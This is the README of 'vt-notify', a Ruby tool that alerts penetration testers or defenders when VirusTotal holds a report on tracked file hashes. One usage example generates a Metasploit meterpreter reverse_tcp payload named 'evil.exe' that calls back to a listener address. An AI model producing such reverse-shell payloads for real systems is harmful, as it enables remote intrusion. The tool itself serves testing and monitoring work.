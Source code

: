
Virus Total Notifier
=========

This project was originally created to notify the user when Virus Total had a report for a specific binary (i.e. one used in a penetration test or otherwise) the penetration tester could be notified via log or email. It runs in an infinite loop and does not check files or hashes that have already been detected by the program; It does, however, continue to re-check hashes that haven't been detected.

This program can also be used as a detection mechanism. Target it towards your web-root or other sensitive directory and it will notify you when anything that has a report on Virus Total is added to your directory.

The script doesn't have anything OS specific in it, so it should be portable anywhere Ruby is installed.


Usage
========

```
Usage: vt-notify [options]
    -e EMAIL // email address of who to notify upon detection, will only log to file if not specified
    -m SMTPSERVER // smtp server to relay email through
    -s FILENAME // file name of binary to keep track of
    -S SHA1 // single SHA1 to keep track of
    -f FILENAME // file containing sha1 hashes of files to keep track of
    -d DIRECTORY // directory of binaries keep track of
    -a APIKEYFILENAME // file contianing API key hash on first line, defaults to apikey.txt
    -l LOGFILENAME // file to write/read positive entries to/from, defaults to results.log
    -i INTERVAL // how often VT is checked, defaults to every 10 minutes
    -h // this help screen
```

For example, the following takes all 500+ files in the hackarmoury repository, SHA1 hashes them and checks them against Virus Total. The ones that have been submitted (even those that have a 0 detection rate) are reported via email to justanotheruser@gmail.com via the Gmail email servers. 
```
./vt-notify.rb -d /opt/hackarmoury/ -e justanotheruser@gmail.com -m gmail-smtp-in.l.google.com
```

Another example is taking a freshly generated 'evil.exe' from Metasploit:
```
./msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.92.100 X > evil.exe
```
And setting up vt-notify to just check on it, with the notifications going to the same gmail account, checking every 20 seconds:
```
./vt-notify.rb -s evil.exe -e justanotheruser@gmail.com -m gmail-smtp-in.l.google.com -i 20
```
Then, acting as the incident responder, I upload the "found" malware to Virus Total and almost instantly:
```
======================================
            RESULTS                   
======================================
Checked:     1
Not found:   1
Found:       0

check complete, sleeping for 20 seconds
4f4c103911eff1668199ff7fbce5e87rae1hee0d was found 35 out of 46 on 2012-12-28 08:29:59
======================================
            RESULTS                   
======================================
Checked:     1
Not found:   0
Found:       1
```
Hash lists are also supported in hash-per-line files (-f) and single SHA1 (-S), however I don't have the ability to support multiple singles on the command line (-S) or (-s)

### Credits
Credit to @mubix for the original vt-notify script  
Credit to @ashtinblanchard for bringing it forward
